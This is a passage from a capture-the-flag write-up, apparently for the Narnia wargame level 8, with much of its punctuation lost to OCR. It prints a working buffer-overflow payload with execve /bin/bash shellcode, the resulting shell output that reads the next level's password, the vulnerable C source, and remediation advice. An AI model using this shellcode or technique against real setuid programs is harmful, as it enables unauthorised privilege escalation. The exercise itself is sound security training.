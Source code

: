 Therefore  the address of the shellcode is at 0xffffd7c4  Finally  the payload can be passed as the argument 

   highlight bash   
narnia8 narnia  narnia    narnia8   python  c  print  A  20  xa4xd7xffxff   x90    
4  xc4xd7xffxff   x6ax0bx58x99x52x66x68x2dx70x89xe1x52x6ax68x68x2f  
x62x61x73x68x2fx62x69x6ex89xe3x52x51x53x89xe1xcdx80                   
AAAAAAAAAAAAAAAAAAAAj  
                    XRfh pRjhh bash binRQS  
bash 4 4  whoami  
narnia9  
bash 4 4  cat  etc narnia pass narnia9  
eiL5fealae
   endhighlight   

    Source Code

   highlight c   
 include  stdio h   
 include  stdlib h   
 include  string h   
   gcc s variable reordering messed things up  
   to keep the level in its old style i am  
   making  i  global until i find a fix  
    morla  
int i void func char  b         char  blah b        char bok 20           int i 0        memset bok   0   sizeof bok          for i 0  blah i      0   i     
               bok i  blah i         printf   sn  bok    
   
  
int main int argc  char   argv         if argc   1   
               func argv 1          else       printf   s argumentn   argv 0          return 0   
 

Looking at the code  the assumption that the while loop in func found by Ghidra is actually a for loop proved to be correct 
   endhighlight   

Conclusion
          

     

Binaries with setuid permissions must be carefully examined before other users are given execute permissions  Every binary was vulnerable to exploitation using well known techniques  among them being re2libc  format string exploitation  and shellcode injection  The following remediations will strengthen the security of every tested binary 

    Perform boundary checks before passing user input into functions

    Almost every binary outlined in this report was vulnerable due to failure of checking boundaries
    Sensitive memory addresses were overwritten allowing ret2libc among other attacks

    Unnecessary disabling NX bit

    The NX bit was unnecessarily disabled for multiple binaries resulting in shellcode injection

    Untrusted user input was directly passed to functions
